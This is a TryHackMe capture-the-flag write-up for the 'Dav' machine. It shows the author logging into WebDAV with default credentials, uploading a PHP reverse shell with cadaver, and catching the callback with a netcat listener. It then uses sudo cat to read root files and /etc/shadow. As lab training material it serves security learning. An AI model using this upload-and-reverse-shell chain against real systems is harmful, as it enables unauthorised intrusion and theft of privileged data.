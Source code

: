 # THM - Dav

#### Ip: 10.10.187.168
#### Name: Dav
#### Difficulty: Easy

----------------------------------------------------------------------

dav.jpeg

```text
Read user.txt and root.txt
```

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
```

Heading to the site on port 80 we find a default Apache landing page:

site.png

With a name like Dav, I guessed the machine likely had to incorporate webdav, so I navigated to http://10.10.187.168/webdav/ and was prompted to authenticate.

login.png

Luckily here I was able to use the default webdav credentials of wampp:xampp and was able to login:

index.png

There is a password.dav file, but I'm not sure how useful that is to us as we already have working credentials.

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update our IP and port we'll be listening on:

php.png

We can then login using cadaver and use the `put` function to load our shell:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ cadaver http://10.10.187.168/webdav/
Authentication required for webdav on server `10.10.187.168':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5519 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
        php-reverse-shell.php               5519  Sep 14 11:29
Terminated by signal 2.
Connection to `10.10.187.168' closed.
```

We can confirm the shell was uploaded:

confirm.png

And if we click on it we trigger the call back to our listener:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ nc -lnvp 8888                                      
listening on [any] 8888 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.187.168] 41040
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:33:14 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ubuntu
$ python -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$
```

From here we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` we see we have the permissions to use cat and read any file we'd like to on the system:

```text
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So we can grab the final flag by running:

```text
sudo /bin/cat /root/root.txt
```

root_flag.png

You can see in the screen shot above I tried to access a few other files in order to get an actual shell as root, rather than just grabbing the flag, but had no luck. 

I couldn't recall having ever seen a (!) character in place of the root password hash in the `/etc/shadow` file before, but apparently that means the password is locked, which led me to believe this was as far as I was getting in the challenge.

locked.png

Thanks for following along!

-Ryan